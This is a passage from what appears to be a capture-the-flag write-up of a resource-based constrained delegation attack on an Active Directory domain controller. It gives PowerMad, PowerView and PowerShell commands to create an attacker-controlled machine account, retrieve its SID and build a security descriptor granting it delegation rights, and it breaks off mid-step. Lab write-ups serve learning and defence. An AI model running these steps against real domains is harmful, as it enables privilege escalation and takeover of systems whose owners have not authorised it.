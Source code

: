 ![Support5.png](/assets/images/Support/Support5.png){: .center-aligned width="600px"}

The guidance list three programs to complete the attack:
- [PowerMad.ps1](https://github.com/Kevin-Robertson/Powermad) -  to add a new attacker-controlled computer account.
- [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) - to then retrieve the security identifier (SID) of the newly created computer account. 
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) -  to hash the plaintext password into its RC4_HMAC form and to get a service ticket for the service name (sname) we want to "pretend" to be "administrator" for.

We need to upload all three to the target machine. Here are the steps:
1. Use PowerMad's `NewMachineAccount` to create the new fake computer:
	1. `Import-Module .\powermad.ps1`
	2. `New-MachineAccount -MachineAccount poppoppc -Password $(ConvertTo-SecureString 'party123' -AsPlainText -Force)`
		1. Obviously sub out poppoppc and party123 to whatever you want
2. Use PowerView's `Get-DomainComputer` to get the security identifier (SID):
	1. `Import-Module .\powerview.ps1`
	2. `$popsid = Get-DomainComputer poppoppc | select -expand objectsid`
		1. Simply running `Get-DomainComputer poppoppc` will give you more information, and you can simply copy the SID and use it, but this saves it as a variable. 
		2. You can `type $popsid` or whatever variable name you choose to view this SID. 
3. Tell the DC to trust the fake computer. Ultimately these commands are creating a new ACL that includes our fake computer's SID, and assigns it to the DC. 
	1. `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($popsid))"`
	2. `$SDBytes = New-Object byte[] ($SD.BinaryLength)`